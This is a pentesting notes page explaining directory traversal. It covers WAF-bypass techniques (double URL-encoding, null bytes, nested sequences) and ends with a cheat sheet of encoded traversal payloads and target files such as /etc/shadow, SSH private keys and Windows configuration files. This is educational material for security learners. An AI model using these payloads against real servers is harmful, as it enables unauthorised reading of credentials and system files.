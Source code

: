 ```yaml
---
description: ../
---
```


# Directory Traversal

Directory Traversal is a vulnerability that can be used to view files that we would otherwise not be able to view. This vulnerability comes in the form of failing to validate parameters that a user can change, like a `?page` parameter within a web application.

Directory Traversal can not only be used to read sensitive files, but also execute files and deface websites from one attacker machine.

<figure><img src="../.gitbook/assets/image (296).png" alt=""><figcaption><p><em>Taken from PortSwigger Web Security Academy</em></p></figcaption></figure>

## How it Works

In terminals of a Linux or Windows server, we can use `cd ..` to go up one directory. We can append multiple of these strings together to go up multiple directories, like `cd ../../../` would go up 3 directories.

Each `../` represents an **action**. If a server fails to parse the filename properly, then we can key in `../../../etc/passwd` to make the website load the `/etc/passwd` file from the server.

Additionally, it's important to note that local files on a system can be processed as a URL.&#x20;

```bash
http://example.com?url=http://google.com

# we can exploit this using
http://example.com?url=file://../../../../../../../etc/passwd
```

The `file://` wrapper would make the file name a URL to be processed in a browser. This is another way directory traversal can be used to read files.

<figure><img src="../.gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>

This vulnerability is dangerous because we can read sensitive files like SSH private keys and gain remote access to the server, or have entire source codes leaked.&#x20;

## Exploitation

Suppose that we have a website that is vulnerable, but it has some defence in depth and has a WAF as a last resort to prevent files from being read. There are still ways to bypass the WAF

### URL-Encoding

We can recursively URL encode our payload.

> URL-Encoding, otherwise known as Percent-Encoding, is a method to encode arbitrary data in a Uniform Resource Identifier (URI) using only the limited ASCII characters legal within a URI

By URL-encodng it, the WAF may fail to pick up on the payload in some cases. This works because most applications would take the user input and URL-decode once to view what are the actions required. By encoding it twice or thrice, we can bypass the WAF because it may not pick up the meaning of the payload, but the web application would still understand it and allow for succesful exploitation

```bash
# not url-encoded
../../../../../etc/passwd

#url encoded
..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

### Null Byte

If the query passed in is meant to read a file of a specific file type, like `.php` or something, then we can truncate the rest of the query. Similar to SQL Injection where we append `-- -` to make everything else a comment, we would append `%00` in this case.

`%00` represents a single byte of data meaning NULL. This would terminate the query and cause the extension bit to not be processed by the backend, but it's still technically present as text and hence couuld bypass a WAF that only checks for the text portion.

```bash
# .png still present, bypass WAF
../../../../etc/passwd%00.png
```

### Nested Sequences

Sometimes, a website would outright block `../` characeters knowing that directory traversal would be attempted. In this case, we can make use of `....//` which would translate back to `../../` when processed. This can sometimes be used to bypass a WAF

### Downloading Files

Sometimes, we can access certain and download files and even binaries via directory traversal. We can check what's by looking into the /proc directory and install the files via curl and the -o flag. Retired from HTB is a machine that uses this, and we can download a binary that is vulnerbale to a ROP chaining vulnerability that would give us an initial shell.&#x20;

## Common Files and Payloads

To verify that we indeed have directory traversal, here are some common files that we can test it out with. Here are some common payloads that can be used to bypass basic WAFs.

<pre class="language-bash"><code class="lang-bash"><strong># common payloads
</strong>../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
<strong>
</strong><strong># for Linux
</strong>/etc/passwd
/etc/hosts
/etc/shadow # if we have privileges
/home/user/.ssh/id_rsa # if we need keys

# for Windows
C:/Users/Administrator/NTUser.dat
C:/Documents and Settings/Administrator/NTUser.dat
C:/boot.ini
C:/inetpub/wwwroot/global.asa
C:/Program Files/Apache Group/Apache2/conf/httpd.conf
C:/Program Files/Apache Group/Apache/conf/httpd.conf
C:/Program Files/Apache Group/Apache/logs/access.log
C:/Program Files/Apache Group/Apache/logs/error.log
C:/Program Files/FileZilla Server/FileZilla Server.xml
C:/Program Files/MySQL/data/hostname.err</code></pre>
